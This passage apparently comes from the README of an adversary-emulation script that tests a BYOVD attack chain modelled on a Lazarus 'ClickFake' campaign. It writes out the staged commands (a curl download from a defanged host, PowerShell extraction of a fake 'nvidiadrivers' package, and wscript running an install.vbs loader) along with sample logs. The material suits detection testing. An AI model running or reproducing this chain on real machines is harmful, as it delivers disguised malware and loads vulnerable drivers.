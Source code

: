 **Stage 2: Archive Extraction**  
```
EXECUTING: powershell -Command "Expand-Archive -Force -Path '%TEMP%\nvidiadrivers.zip' -DestinationPath '%TEMP%\nvidiadrivers'"
```
- Extracts package using PowerShell cmdlets
- Lists all extracted files with full directory structure
- Handles nested directory structures automatically

**Stage 3: VBS Script Execution**
```
EXECUTING: wscript "%TEMP%\nvidiadrivers\install.vbs"
```
- Intelligently searches for VBS scripts in multiple locations:
  - `install.vbs`, `update.vbs`, `driver_loader.vbs`
  - Handles nested directory structures (e.g., `nvidiadrivers\nvidiadrivers\`)
- Executes with 30-second timeout and process monitoring
- Tracks execution artifacts and registry modifications

#### **📊 Output and Logging**

**Real-time Console Output:**
```
[2025-08-10 17:34:25] [STAGE] BYOVD Attack Chain Test Started
[2025-08-10 17:34:25] [SUCCESS] Test package found: nvidiadrivers.zip (22685 bytes)
[2025-08-10 17:34:26] [SIMULATION] curl -k -o "%TEMP%\nvidiadrivers.zip" https://api.smartdriverfix[.]cloud/...
[2025-08-10 17:34:27] [SUCCESS] Package 'downloaded' successfully
```

**Detailed Log File:** `%TEMP%\byovd_attack_chain_test_YYYYMMDD_HHMMSS.log`

**Final Summary Report:**
```
+=================================================================+
|                   BYOVD ATTACK CHAIN TEST COMPLETED            |
+=================================================================+
| Simulation: Lazarus Group ClickFake Campaign                   |
| Attack Chain: curl -> PowerShell -> VBS -> Driver Loading      |
| Duration: 15.3 seconds                                         |
| Status: Test completed successfully                            |
+=================================================================+
```

#### **🔍 Prerequisites Check**

The script automatically validates:
- ✅ Test package file existence and accessibility
- ✅ Required tools availability (`curl`, `powershell`, `wscript`)
- ✅ TEMP directory write permissions
- ✅ Windows Script Host configuration

#### **⚠️ Troubleshooting Guide**

**"Test package not found" Error:**
```powershell
# Verify file location
Get-ChildItem .\nvidiadrivers.zip

# Use absolute path if needed
.\test_attack_chain.ps1 -TestPackagePath "C:\full\path\to\nvidiadrivers.zip"
```
